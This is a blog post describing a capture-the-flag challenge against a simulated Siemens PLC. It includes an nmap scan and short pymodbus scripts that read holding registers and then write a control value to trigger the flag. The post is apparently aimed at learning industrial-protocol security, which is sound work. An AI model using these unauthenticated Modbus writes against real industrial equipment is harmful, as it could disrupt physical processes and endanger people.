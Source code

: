 ```yaml
---
layout: post
title: Exploiting a Siemens S7 PLC Using Modbus and Python
date: 2025-07-01
categories:
  - blog
tags:
  - ctf
  - htb
  - cybersecurity
  - enumeration
  - exploitation
excerpt: ""
---
```

# Exploiting a Siemens S7 PLC Using Modbus and Python

## Introduction

This post documents a Capture the Flag (CTF) challenge I completed that simulated an industrial environment. The scenario involved a Siemens S7 Programmable Logic Controller (PLC) that communicated using the Modbus TCP protocol. The objective was to explore the system, identify vulnerable functionality, and trigger a simulated event to capture the flag.

Along the way, I learned how to apply basic Modbus read and write operations in Python, how to interpret register values, and how easily unprotected industrial devices can be manipulated with simple tools.

---
## The Setup

The CTF environment provided a target system accessible via IP address. A quick Nmap scan confirmed that TCP port 502 was open:

```
$ nmap -sV -p 502 <target_ip>

PORT    STATE SERVICE VERSION
502/tcp open  modbus  Modbus TCP
```

This suggested the device was running a Modbus service, which is commonly used by industrial equipment like PLCs. Modbus has no built-in authentication, and many real-world devices are exposed on internal or even public networks. That made this a realistic and valuable exercise.

---

## Preparing the Environment

I used a Kali Linux virtual machine as my attack platform. To interact with the Modbus service, I installed the `pymodbus` library:

```
pip install pymodbus==3.9.2
```

I also had Wireshark available for monitoring the traffic, although it wasn’t strictly necessary for this challenge.

---

## Step 1: Reading Registers

The first step was to see what the device would return from a basic read operation. In Modbus, devices expose values through registers. I started by trying to read ten holding registers starting from address 0:

```python
from pymodbus.client import ModbusTcpClient

client = ModbusTcpClient('<target_ip>', port=502)
client.connect()

response = client.read_holding_registers(0, 10, unit=1)
print(response.registers)

client.close()
```

 This returned the following output:

```
[70, 0, 0, 0, 0, 0, 0, 0, 0, 0]
```

The first register contained the value `70`, while the rest were zero. That caught my attention. In CTFs, a non-zero register often points to something meaningful, such as a control value or status indicator.

---

## Step 2: Interpreting the Data

At this point, I didn’t know whether the value `70` was meant to be read-only or if it was part of a writable control interface. Since Modbus allows writing to registers just as easily as reading from them, I decided to test whether the device would accept changes.

However, I didn’t want to start blindly overwriting values. First, I reviewed how Modbus write operations are structured, especially `write_register()` for single values. I also double-checked the pymodbus documentation to confirm the function signature.

---

## Step 3: Attempting a Write

I decided to try writing a new value to the first register, which previously contained `70`. I modified the script:

```python
from pymodbus.client import ModbusTcpClient

client = ModbusTcpClient('<target_ip>', port=502)
client.connect()

client.write_register(0, 99, unit=1)

client.close()
```

I chose `99` as a test value, thinking it might trigger some predefined behavior if this register was acting as a control point.

Shortly after running the script, the simulated environment responded with success. I also received a message containing the flag:

```
THM{flag_redacted}
```

That confirmed two things. First, the register was writable. Second, the value `99` triggered the specific logic the CTF designer had built in to simulate system failure or compromise.

---

## Reflections

This was a simple challenge, but it demonstrated a few important principles that apply to real-world systems:

- Modbus has no security features by default. If a system is accessible on the network, anyone who understands the protocol can read and write values.

- Protocol understanding goes a long way. This challenge didn’t require exploits or fuzzing. Just basic knowledge of Modbus and some patient experimentation.

- CTFs are a great way to safely explore offensive techniques. Practicing this against real hardware without permission would be unethical and illegal. Doing it in a simulation builds real skills with none of the risk.

---

## Tools Used

- Python 3 with `pymodbus`
- Kali Linux (running in a VM)
- Nmap (for service discovery)
- Wireshark (for optional protocol inspection)

---

## Next Steps

This experience made me want to explore more advanced Modbus attacks, such as crafting custom packets, replaying traffic, or brute-forcing unknown register ranges. I’m also looking into how these protocols interact with HMI software and SCADA systems in the real world.

I’ll document those experiments as I go. For now, this challenge was a fun and practical example of how easily industrial protocols can be manipulated if proper segmentation and access controls aren't in place.